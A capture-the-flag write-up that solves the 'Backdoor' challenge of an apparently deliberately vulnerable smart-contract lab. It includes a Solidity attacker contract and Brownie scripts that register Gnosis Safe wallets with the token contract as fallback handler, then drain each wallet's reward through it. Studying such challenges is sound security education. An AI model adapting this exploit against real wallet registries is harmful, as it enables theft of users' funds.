 ## Backdoor

### Challenge description

> To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.
>
> To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.
>
> Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.
>
> Your goal is to take all funds from the registry. In a single transaction. 

### Solution

The Backdoor challenge tasks us with deploying a Gnosis Safe proxy for 4 users through a Gnosis Safe Proxy Factory. After each deployment, 10 DVT tokens will be distributed to each one of those users (the beneficiaries)

For the registry to accept each proxy creation as correct and to steal the tokens, we must code an attacker contract that makes the calls and passes a few conditions:

1. The WalletRegistry contract must have enough DVT tokens to make the payment to the beneficiary

```solidity
require(token.balanceOf(address(this)) >= TOKEN_PAYMENT, "Not enough funds to pay");
```

This does not directly depend on us, so we can continue.

2. The caller contract must be the GnosisSafeProxyFactory contract

```solidity
require(msg.sender == walletFactory, "Caller must be factory");
```

To achieve this, all we have to do is use the correct call when creating the proxy through the proxy factory contract. The call that invokes this function in the WalletRegistry (of course, specifying that this is the wallet registry that will receive the callback) is the function `createProxyWithCallback()`. This function takes the following parameters:

```solidity
function createProxyWithCallback(
    address _singleton,
    bytes memory initializer,
    uint256 saltNonce,
    IProxyCreationCallback callback
)
```

+ The `_singleton` address is the Gnosis Safe implementation contract address, which the WalletRegistry contract refers to as the `masterCopy`.
+ The `initializer` data, which is the data we will generate to call `setup()` (detailed on condition 3)
+ The `saltNonce` which we can just set as 0
+ The `callback`, which is the address to the WalletRegistry contract, but since it can only be passed as an IProxyCreationCallback interface, we must pass it as such `IProxyCreationCallback(registry)` by importing the interface at the top of the attacker contract

3. The right singleton contract must be used

```solidity
require(singleton == masterCopy, "Fake mastercopy used");
```

This is covered by using the address of `masterCopy` (the Gnosis Safe implementation contract) correctly when calling `createProxyWithCallback()`


4. We must be calling `setup()`

```solidity
require(bytes4(initializer[:4]) == GnosisSafe.setup.selector, "Wrong initialization");
```

`setup()` is the initializer function for a Gnosis Safe multisignature wallet. This function is in the Gnosis Safe implementation contract (GnosisSafe.sol) and it takes the following parameters:

```solidity
function setup(
    address[] calldata _owners,
    uint256 _threshold,
    address to,
    bytes calldata data,
    address fallbackHandler,
    address paymentToken,
    uint256 payment,
    address payable paymentReceiver
)
```

+ `_owners` must be an array with the addresses that will control this contract. Here we must input an array with a single element per multisig we initialize, one per user.
+ `_threshold` is the number of required confirmations per transaction signed by the safe. E.g. if `_threshold` is 4 and the size of `_owners` is 7, then at least 4 out of the 7 owner addresses must sign for a transaction to go through. In this case, this value must be 1.
+ `to` is a contract address to which an optional delegate call will be made, this can be set as the null address.
+ `data` payload for that optional delegate call. This can be 0.
+ **`fallbackHandler`** is the parameter which we will use to be able to exploit the wallets despite not being an owner of the wallet. This parameter is an address which will handle fallback calls to the contract, if we make a call that contains a function selector that does not match any function in the safe, then this selector and the calldata will be forwarded to a fallback contract which corresponds to the address of `fallbackHandler`. **Here we can input the DVT token contract address**.
+ `paymentToken` is the address of a token that can be optionally used to pay gas fees for transactions, we won't use gas tokens so this can be the null address as we want to use ETH to pay for txs.
+ `payment` is the value that should be payed in case a gas token is used. We'll use ETH, so this should be 0.
+ `paymentReceiver` is the address that will receive the payment. This should be the null address so that it's set to `tx.origin`.

5. The `_threshold` parameter in the `setup()` call needs to be 1.

```solidity
require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");
```

As specified in 4.

6. The `_owners` array must be of length 1, so each multisig wallet must have at most 1 owner.

```solidity
require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");
```

As specified in 4.

7. The owner set per multisig must be in the list of beneficiaries.

```solidity
require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");
```

After all requirements pass, the DVT tokens will be transferred to the created Gnosis Safe multisig. Each multisig will receive 10 DVT tokens.

To steall all the tokens in one transaction, we must create a function in the attacker contract that will perform the following workflow:

1. Create the multisig for user `user`.
    + The creation will assign the `fallbackHandler` as the DVT token contract address
    + The creation will assign the `callback` proxy creation callback interface to the WalletFactory contract

2. Make a call to the newly created Gnosis Safe multisig for user `user` with function selector + calldata performing a token transfer. The function selector specified must be that of the `transfer()` function of the DVT token contract. The calldata should be the receiver of those tokens (the attacker address) and the amount should be the entire balance that the WalletRegistry will send to the newly created multisig (10 DVT tokens). This call will effectively transfer the 10 DVT tokens in that Safe to the attacker's address.

I decided to pass the calldata for the `setup()` and `transfer()` functions as a parameter to the function so that the contract is more readable:

```solidity
function deploySafesAndStealTokens(bytes[] calldata maliciousSetupCalls, bytes calldata maliciousTransferCall) external {
    // loop over the malicious calls, creating a new proxy per loop
    // which will allow us to then call transfer after the token contract
    // is set up as a fallback contract for the wallet
    for (uint256 i = 0; i < maliciousSetupCalls.length; i++) {
        GnosisSafeProxy newGnosisSafeWallet = gspf.createProxyWithCallback(
            singleton,
            maliciousSetupCalls[i],
            0,
            IProxyCreationCallback(registry)
        );
        
        // transfer tokens to tx.origin, the attacker
        (bool success,) = address(newGnosisSafeWallet).call(maliciousTransferCall);

        // make sure the transfer is made
        require(success, "tokens stealing failed");
    }
}
```

To generate the data for this calls I just used the `encode_input` method in Brownie:

+ `setup()` call

```py
# malicious calls list
malicious_setup_calls = []

# loop over addresses
for user in users: 

    # setup call encoding from master copy
    malicious_setup_calls.append(
        master_copy.setup.encode_input(
            [user],
            1,
            ZERO_ADDRESS,
            0,
            token.address,
            ZERO_ADDRESS,
            0,
            ZERO_ADDRESS
        )
    )
```

+ `transfer()` call

```py
token_stealing_call = token.transfer.encode_input(
    attacker.address, 
    AMOUNT_TOKENS_DISTRIBUTED // len(users)
)
```

And then just call the attacker contract function to do it all in one transaction:

```py
attacker_contract.deploySafesAndStealTokens(
    malicious_setup_calls, 
    token_stealing_call, 
    _fromAttacker
)
```
